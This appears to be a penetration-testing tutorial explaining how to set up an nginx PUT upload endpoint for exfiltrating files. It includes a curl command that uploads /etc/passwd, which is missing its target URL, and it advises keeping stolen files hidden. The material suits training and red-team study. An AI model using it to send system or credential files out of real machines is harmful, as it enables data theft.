 ```
        




# Enabling webservers


#### enabling uploads with nginx

- Create a Directory to Handle Uploaded Files

```$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory```

- Change the Owner to www-data

```$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory```

- Create Nginx Configuration File : Create the Nginx configuration file  /etc/nginx/sites-available/upload.conf with the contents:
```
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

- Symlink our Site to the sites-enabled Directory

```$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/```

- Start Nginx

```$ sudo systemctl restart nginx.service```

        !If we get any error messages, check /var/log/nginx/error.log. If using Pwnbox, we will see port 80 is already in use.

```$ tail -2 `/var/log/nginx/error.log````

- Remove NginxDefault Configuration if u get errors about the port 

```$ sudo rm /etc/nginx/sites-enabled/default```

        Now we can test uploading by using cURL to send a PUT request. In the below example, we will upload the /etc/passwd file to the server and call it users.txt

#### Upload File Using cURL

```$ curl -T /etc/passwd```
```$ tail -1 /var/www/uploads/SecretUploadDirectory/users.txt ```

Once we have this working, a good test is to ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory. By default, with Apache, if we hit a directory without an index file (index.html), it will list all the files. This is bad for our use case of exfilling files because most files are sensitive by nature, and we want to do our best to hide them. Thanks to Nginx being minimal, features like that are not enabled by default.



    
```